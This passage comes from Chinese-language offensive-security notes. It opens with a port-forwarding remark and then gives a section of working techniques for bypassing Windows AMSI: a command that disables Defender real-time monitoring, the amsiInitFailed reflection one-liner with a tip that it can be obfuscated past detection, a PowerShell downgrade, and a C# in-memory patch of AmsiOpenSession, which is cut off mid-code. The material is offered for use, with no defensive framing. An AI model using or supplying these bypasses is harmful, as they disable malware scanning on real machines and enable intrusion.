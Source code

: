 此时我们访问45.77.xx.xx的1111端口就相当于访问内网不出网机器的192.168.183.2:80

# 16.Bypass AMSI

[How to Bypass AMSI](https://0range-x.github.io/2022/01/23/AMSI/)

管理员权限关闭amsi

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

### 一键关闭AMSI

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPubilc,Static').SetValue($null,$true)
```

被加黑了，可以混淆过

### powershell降级

```
powershell.exe -version 2   //改变powershell运行版本
```

### 内存补丁

```
$p=@"
using System;
using System.Linq;
using System.Runtime.InteropServices;
public class Program
{
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern IntPtr VirtualProtect(IntPtr lpAddress, UIntPtr dwSize,
uint flNewProtect, out uint lpfloldProtect);
public static void Bypass()
{
String a =
"isma";
IntPtr lib = LoadLibrary(String.Join(""
, a.Reverse().ToArray()) +
"
.dll");
IntPtr addr = GetProcAddress(lib,
"AmsiOpenSession");
uint old = 0;
byte[] p;
p = new byte[6];
p[0] = 0xB8;
p[1] = 0xFF;
p[2] = 0xFF;
p[3] = 0xFF;
p[4] = 0xFF;
p[5] = 0xC3;
VirtualProtect(addr, (UIntPtr)p.Length, 0x04, out old);
Marshal.Copy(p, 0, addr, p.Length);
VirtualProtect(addr, (UIntPtr)p.Length, old, out old);
	}
```